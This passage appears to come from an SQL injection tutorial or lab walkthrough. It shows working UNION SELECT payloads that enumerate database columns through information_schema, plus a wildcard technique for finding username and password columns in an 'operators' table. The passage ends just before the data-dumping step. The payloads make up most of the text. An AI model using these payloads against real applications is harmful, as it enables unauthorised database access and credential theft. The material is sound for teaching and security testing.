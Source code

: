 Let's look at the columns of the second table - license

Request:
```
test%40test.com'+UnIoN+SELECT+1,2,3,CONCAT('\r\n','\r\n',group_concat(0x7c,column_name,0x7c,'\r\n'),'\r\n','%40test.com')+FROM+information_schema.columns+WHERE+table_name%3d'license'--+-
```

![Columns Of Table Groups](/sqli-0x02/33_col2.png)


Let's look at the columns of the third table - operators

Request:
```
test%40test.com'+UnIoN+SELECT+1,2,3,CONCAT('\r\n','\r\n',group_concat(0x7c,column_name,0x7c,'\r\n'),'\r\n','%40test.com')+FROM+information_schema.columns+WHERE+table_name%3d'operators'--+-
```

![Columns Of Table Groups](/sqli-0x02/33_col3.png)

Out of all the table we enumerated for columns, the "operators" table seems to have the most interesting columns - username and password.

Another way that you could enumerate for "interesting" columns without doing table name or column name enumeration is by using wildcards. You could ask the database to return any column that has a keyword in it, like "user". A query to do so would look like this:

``` SQL
SELECT GROUP_CONCAT(column_name,0x3a,table_name,'\r\n') FROM information_schema.columns WHERE column_name like %user%;
```

In MySQL, you use "%" as a wildcard in a query. This would print out any column name which has the term "user" in it (with anything in front or after the term) and its' respective table name. Similar could be done for password - "%pass%" 

Let's try to get all the columns with term "user" in our example:

Request:

```
test@test.com' UnIoN SELECT 1,2,3,CONCAT('\r\n','\r\n',group_concat(0x7c,column_name,0x3a,table_name,0x7c,'\r\n'),'\r\n','@test.com') FROM information_schema.columns WHERE column_name like '%user%'-- -
```

Output:

![Getting "username" Column With Wildcard](/sqli-0x02/33_col4.png)

Since we used a wildcard, we get the results from any column that has user in it, but it does get things done quicker.

### Getting Content

Before we dive into dumping information out, it's always a good idea take a count of things. With that said, let's take a count of id of the operators table before we start dumping everything.
